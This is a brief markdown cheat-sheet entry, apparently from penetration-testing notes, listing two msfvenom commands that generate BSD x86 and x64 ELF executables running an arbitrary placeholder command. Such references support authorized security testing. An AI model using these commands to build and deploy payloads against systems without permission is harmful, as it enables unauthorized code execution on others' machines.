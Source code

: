 # Exec Payloads

## Execute BSD Exec Payload

`$ msfvenom -p bsd/x86/exec cmd=<commands> -f elf -o exec-cmd-x86`

`$ msfvenom -p bsd/x64/exec cmd=<commands> -f elf -o exec-cmd-x64`